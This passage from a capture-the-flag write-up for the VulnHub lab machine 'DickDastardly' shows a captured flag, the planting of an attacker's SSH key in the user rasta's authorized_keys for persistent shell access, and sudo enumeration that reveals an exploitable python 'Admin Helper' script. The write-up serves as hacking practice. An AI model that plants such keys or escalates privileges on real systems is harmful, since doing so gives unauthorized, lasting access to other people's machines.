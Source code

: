 Now we can get the next flag
```
cat flag2
flag2{y0u'r3_4_5upyb07_n00b_m8}
```

Let's also add a SSH key to the `authorized_keys` so we can have a look with a proper shell as the user `rasta`
```
mkdir ~/.ssh
echo "ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCyXvfW0bhRfSIPDn6kHkn8qggMuDKTTMJEFweBWv7qJ5FKB+QbmfsjASOQPZBIsc6248pCUm3yfzfvRAUyXICD4Dcsz+Zex9TAKJFLc4W6dglZlEchOqFKWE8bpWHgzf4shFh/2/utcWtAxMJb+5+uYGyATBtjWeB3BsLVGaB3djow6ymxdl/V40qR/xOzfoO2U2mDJrG8iYPVkSHs2Rcfu0vnEb5XOWZ7qvhUgrmh/c/M5kNjH6f5/KJJkKXAfcMDwRV81EpznNOD2ddJxXBzgzpYU5zx21GDrTQE76N5NJR9L9ePtorVHWDAn8bfKo7K3Y2n4LjO8wL/cFVlXdd/ root@kali" > ~/.ssh/authorized_keys
```

# flag3
After having a look at the users sudo rights we can see we are allowed to run a python script as the user `vulnhub`:
```
rasta@DickDastardly:/home$ sudo -l
Matching Defaults entries for rasta on DickDastardly:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User rasta may run the following commands on DickDastardly:
    (vulnhub) NOPASSWD: /usr/bin/python /usr/local/sbin/util.py
```

So let's try it out:
```
sudo -u vulnhub /usr/bin/python /usr/local/sbin/util.py
```

We get the `Admin Helper` application:
```
 ----------------
|  Admin Helper  |
|	dev 0.1  |
 ----------------

1 whoami
2 List Directory
3 Coffee
q Exit
```

With option 2 we are able to list any directory and it's also the only option accepting additional user input:
```
Please Select: 2

Enter dir to list: /home/vulnhub/
total 4
-rw-r--r-- 1 root root 37 Sep 26 16:59 flag3
```
